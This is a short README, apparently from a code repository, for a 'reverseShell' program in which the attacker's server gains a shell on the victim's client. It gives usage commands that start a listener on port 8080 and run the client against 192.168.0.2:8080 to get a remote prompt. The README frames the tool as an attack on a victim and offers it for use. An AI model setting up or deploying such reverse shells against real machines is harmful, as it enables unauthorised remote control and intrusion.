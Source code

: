# reverseShell
This is a program in which a 
**server** (or the attacker)
gains a shell of
**client** (or the victim)
to which it is connected to.

## Usage
### 1. Setup a server and listen for incoming connections.
On your machine setup a server and start listening on a port.

``` 
./server 8080 
```

### 2. Execute client script and setup a connection to the server
You can do this by simply executing the client compiled file

```
./client 192.168.0.2 8080
```

Now you should have a prompt on server machine.

